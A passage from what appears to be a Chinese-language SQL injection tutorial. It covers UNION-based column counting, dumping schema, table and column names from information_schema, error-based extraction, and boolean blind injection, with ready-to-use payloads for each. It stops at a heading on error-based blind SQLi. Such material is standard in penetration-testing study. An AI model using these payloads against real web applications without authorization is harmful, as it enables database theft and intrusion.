 选择更多的空值，直到查询正确：
```sql
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```
_您应该使用 `null` 值，因为在某些情况下，查询两侧的列类型必须相同，而 null 在每种情况下都是有效的。_

### 提取数据库名称、表名称和列名称

在接下来的示例中，我们将检索所有数据库的名称、数据库的表名称以及表的列名称：
```sql
#Database names
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

#Tables of a database
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]

#Column names
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```
_每个不同的数据库都有不同的方法来发现这些数据，但方法论始终相同。_

## 利用隐藏的基于联合的注入

当查询的输出可见，但基于联合的注入似乎无法实现时，这表明存在**隐藏的基于联合的注入**。这种情况通常会导致盲注入。要将盲注入转变为基于联合的注入，需要识别后端的执行查询。

这可以通过使用盲注入技术以及特定于目标数据库管理系统（DBMS）的默认表来实现。为了理解这些默认表，建议查阅目标DBMS的文档。

一旦提取了查询，就需要调整你的有效载荷以安全地关闭原始查询。随后，将一个联合查询附加到你的有效载荷中，从而利用新可访问的基于联合的注入。

有关更全面的见解，请参阅完整文章 [Healing Blind Injections](https://medium.com/@Rend_/healing-blind-injections-df30b9e0e06f)。

## 利用基于错误的注入

如果由于某种原因你**无法**看到**查询**的**输出**，但你可以**看到错误消息**，你可以利用这些错误消息来**提取**数据库中的数据。\
遵循与基于联合的利用相似的流程，你可以成功地转储数据库。
```sql
(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))
```
## 利用盲注入

在这种情况下，您无法看到查询的结果或错误，但您可以**区分**查询何时**返回****真**或**假**响应，因为页面上有不同的内容。\
在这种情况下，您可以利用这种行为逐字符地转储数据库：
```sql
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables = 'A'
```
## 利用错误盲SQLi
